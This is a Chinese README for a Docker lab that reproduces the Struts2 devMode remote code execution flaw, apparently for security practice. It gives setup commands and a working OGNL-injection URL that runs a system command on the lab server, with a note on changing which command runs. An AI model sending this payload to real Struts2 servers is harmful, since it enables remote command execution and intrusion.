

## Struts2 S2-devMode 漏洞环境

### 说明

 直接使用本仓库中的 s2-037 漏洞环境

### 漏洞信息

 * [漏洞预警：Struts2 devMode导致远程代码执行漏洞](http://www.freebuf.com/news/108924.html)

 * [Struts2漏洞利用工具Devmode版](http://www.freebuf.com/sectool/108896.html)

 > 评价：该漏洞属于配置错误导致的漏洞

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-devmode
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-devmode
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `https://你的 IP 地址:端口号/`

#### Exp

假定启动后的地址为：http://127.0.0.1:8080/

执行 id 命令：

```
http://127.0.0.1:8080/orders/?debug=browser&object=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=id
```

> 修改参数 command 的值为你要执行的命令



### 参考链接


